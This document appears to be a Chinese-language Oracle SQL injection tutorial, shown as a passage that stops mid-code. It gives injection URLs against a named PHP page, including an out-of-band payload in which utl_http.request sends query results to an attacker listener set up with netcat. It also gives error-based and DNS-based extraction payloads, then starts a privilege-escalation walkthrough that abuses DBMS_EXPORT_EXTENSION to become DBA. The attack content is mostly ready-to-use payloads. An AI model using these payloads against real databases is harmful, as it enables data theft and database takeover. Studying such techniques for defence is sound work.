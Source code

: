 假定上面的代码是http://www.hellove.net/hellove.php，变量id将会导致注入. 在这里很明显的可以用union来获取信息，不过我们还是介绍一点oracle独有的获取信息的方法吧 

```
utl_http.request

local: nc.traditional -l -p 1234

web: http://www.hellove.net/hellove.php?id=123 and 1=utl_http.request('http://10.1.100.1/'||(SQL in HERE))  
utl_inaddr.get_host_name

error base  
web: http://www.hellove.net/hellove.php?id=123 and 1=utl_inaddr.get_host_name((SQL in HERE))  
utl_inaddr.get_host_address

error base or dns  
web: http://www.hellove.net/hellove.php?id=123 and 1=utl_inaddr.get_host_address((SQL in HERE))  
ctxsys.drithsx.sn

error base  
web: http://www.hellove.net/hellove.php?id=123 and 1=ctxsys.drithsx.sn(1,(SQL in HERE))  
sys.dbms_ldap.init

dns  
web: http://www.hellove.net/hellove.php?id=123 and SYS.DBMS_LDAP.INIT(((SQL in HERE)||'hellove.net',80) is not null

```

utl_http.request,utl_inaddr.get_host_name,utl_inaddr.get_host_address由于11g的安全特性无法继续使用，但是我们 可以在显错模式下利用ctxsys.drithsx.sn，或者自己搭建一个dnsserver，将一个域名的解析server指向该server，利用sys.dbms_ldap.init 还可以在11g下正常工作**0x2 权限提升**在这里假设我们得到的这个注射点所在的用户的拥有的权限很小，仅有create session或者其他权限，也假设我们并没有足够走运 能够注射到pl/sql语句中，仅仅是一个普普通通的注射点，这个时候我们就要想想如何提权了，所以本小结的主题是如何让我们现在 的用户成为dba，let’s begin DBMS_EXPORT_EXTENSION  现在我们来关注一下DBMS_EXPORT_EXTENSION这个包，这个包在06年7月之前存在3个危险函数，get_domain_index_metadata， get_v2_domain_index_tables，get_domain_index_tables，这三个函数sys定义，默认都是definer right ,oracle的初次 修复方案很友爱，前两个函数都修得差不多了，但是第三个在10g r2未打补丁的情况下，还存在着，让我们看一下这个函数的代码

```
FUNCTION GET_DOMAIN_INDEX_TABLES (  
INDEX_NAME IN VARCHAR2,  
INDEX_SCHEMA IN VARCHAR2,  
TYPE_NAME IN VARCHAR2,  
TYPE_SCHEMA IN VARCHAR2,  
READ_ONLY IN PLS_INTEGER,  
VERSION IN VARCHAR2,  
GET_TABLES IN PLS_INTEGER)  
RETURN VARCHAR2 IS

CRS INTEGER := DBMS_SQL.OPEN_CURSOR;  
DUMMY INTEGER;  
RETVAL INTEGER;  
STMTSTRING VARCHAR2(3901);  
COMPILE_ERROR EXCEPTION;  
PRAGMA EXCEPTION_INIT(COMPILE_ERROR, -6550);

BEGIN  
IF GET_TABLES = 1 THEN  
GETTABLENAMES_CONTEXT := 0;

STMTSTRING :=  
'DECLARE ' ||  
'oindexinfo ODCIIndexInfo := ODCIIndexInfo(' ||  
''''||SYS.DBMS_ASSERT.SCHEMA_NAME(INDEX_SCHEMA)||''','''||  
SYS.DBMS_ASSERT.SIMPLE_SQL_NAME(INDEX_NAME)||''', ' ||  
```